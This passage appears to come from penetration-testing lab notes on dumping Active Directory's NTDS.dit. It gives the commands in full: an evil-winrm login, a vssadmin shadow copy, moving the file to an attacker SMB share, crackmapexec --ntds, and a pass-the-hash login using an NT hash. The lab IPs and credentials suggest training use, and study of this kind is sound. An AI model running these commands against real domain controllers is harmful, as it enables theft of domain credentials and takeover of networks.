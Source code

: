   * once we have valid creds, we can capture ```NTDS.dit``` - it is the directory service used with AD to find & organize network resources (.dit stands for directory information tree):

    ```ps
    evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
    # connect to DC

    net localgroup
    # check group privs

    # to make a copy of NTDS.dit, we need local admin (Administrators group) or domain admin (Domain Admins group) rights

    net user bwilliamson
    # check user privileges

    # create volume shadow copy of the drive where AD is setup
    vssadmin CREATE SHADOW /For=C:

    # copy NTDS.dit from VSS
    cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

    # setup smbserver share on attacker machine

    # move file from target to attacker machine
    cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
    ```

    ```sh
    # alternatively, we can use crackmapexec to capture NTDS.dit
    crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
    ```
  
  * after this, we can crack the NT hashes to get the creds; if we are unable to crack the hash, we can consider PtH (pass-the-hash) attacks - it takes advantage of the NTLM authentication protocol:

    ```sh
    evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
    # using hash instead of password
    ```
